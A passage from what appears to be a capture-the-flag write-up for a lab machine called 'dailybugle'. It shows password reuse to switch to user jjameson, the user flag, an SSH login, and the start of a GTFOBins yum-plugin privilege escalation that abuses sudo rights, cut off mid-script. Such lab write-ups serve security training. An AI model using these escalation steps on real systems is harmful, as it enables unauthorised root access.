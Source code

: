 And by chance, this password is also the one from the jjameson's user!

~~~
sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu

$ whoami
jjameson
$ cd
$ ls
user.txt
$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
~~~

User flag: `27a260fe3cba712cfdedb1c86d80442e`

## #2.4 - What is the root flag?

*Hint: https://gtfobins.github.io/*


Now, let's leave our reverse shell and connect directly to SSH with su `jjameson:nv5uz9r3ZEDzVjNu`. First thing will be to check our privileges:

~~~
unknown@kali:/data/tmp$ ssh jjameson@10.10.233.69
jjameson@10.10.233.69's password: 
Last login: Sun Jun 14 12:07:53 2020
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
~~~

yum? Let's check the OS:

~~~
[jjameson@dailybugle ~]$ cat /etc/redhat-release 
CentOS Linux release 7.7.1908 (Core)
~~~

Interestingly, the server is running on CentOS. Having a look a GTFOBins confirms several privesc with yum. Let's try.

~~~
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
~~~